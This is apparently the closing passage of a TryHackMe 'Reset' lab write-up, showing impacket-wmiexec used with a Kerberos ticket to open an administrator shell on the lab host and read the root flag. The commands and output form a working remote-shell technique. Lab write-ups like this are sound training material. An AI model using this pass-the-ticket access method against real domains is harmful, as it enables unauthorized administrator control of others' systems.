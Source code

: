 Lets user <mark style="background: #FF5582A6;">impacket-wmiexec</mark> tool to get the shell with -no-pass flag also specify -k for importing ticket . 
```powershell
┌──(kali㉿kali)-[~/Downloads/Tryhackme/Reset]
└─$ impacket-wmiexec -k 'thm.corp/Administrator'@haystack.thm.corp -no-pass
Impacket v0.11.0 - Copyright 2023 Fortra

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
thm\administrator

C:\>hostname
HayStack

C:\>cd C:\Users\Administrator
C:\Users\Administrator>tree /f /a
Folder PATH listing
Volume serial number is A8A4-C362
C:.
+---3D Objects
+---Contacts
+---Desktop
|       EC2 Feedback.website
|       EC2 Microsoft Windows Guide.website
|       root.txt
|       
+---Documents
+---Downloads
+---Favorites
|   |   Bing.url
|   |   
|   \---Links
+---Links
|       Desktop.lnk
|       Downloads.lnk
|       
+---Music
+---Pictures
+---Saved Games
+---Searches
\---Videos

C:\Users\Administrator>type Desktop\root.txt
THM{FLAG_FLAG_FLAG_FLAG_FLAG_FLAG}
C:\Users\Administrator>
```
{: .nolineno}
{: .nolineno}
I am Administrator Now !!

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }